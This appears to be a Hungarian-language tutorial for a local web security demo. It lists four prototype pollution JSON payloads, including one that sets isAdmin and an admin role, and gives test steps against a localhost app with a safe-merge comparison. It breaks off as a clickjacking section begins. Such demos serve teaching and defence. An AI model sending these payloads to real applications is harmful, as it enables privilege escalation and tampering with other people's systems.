 #### **1. Egyszerű Pollution**
```json
{"__proto__": {"polluted": true}}
```

#### **2. Admin Privilege Escalation**
```json
{"__proto__": {"isAdmin": true, "role": "admin"}}
```

#### **3. Konstruktor Pollution**
```json
{"constructor": {"prototype": {"hacked": "yes"}}}
```

#### **4. Mély Objektum Pollution**
```json
{
  "__proto__": {
    "toString": "function(){return 'hacked'}",
    "valueOf": "function(){return 999}"
  }
}
```

### **Tesztelési Lépések**
1. **Nyisd meg a demót:** `http://localhost:3000`
2. **Kattints a "Prototype Pollution" fülre**
3. **Másold be az egyik payloadot**
4. **Kattints "Execute Payload"**
5. **Figyeld meg az eredményt**
6. **Próbáld ki a biztonságos verziót is**

### **Mit Nézel?**
- **Előtte:** `({}).polluted = undefined`
- **Utána:** `({}).polluted = true` ← **Sikeres támadás!**

### **Védelem Tesztelése**
```javascript
// Teszteld le a safe merge funkcióval
// Eredmény: "SAFE MERGE SUCCESSFUL!" üzenet
```

---

## 🎭 Clickjacking - Gyakorlati Demonstráció

### **Tesztelési Lépések**

#### **1. Sebezhetős Oldal Tesztelése**
```bash
# Nyisd meg külön ablakban
http://127.0.0.1:5500/vulnerable-page.html
```
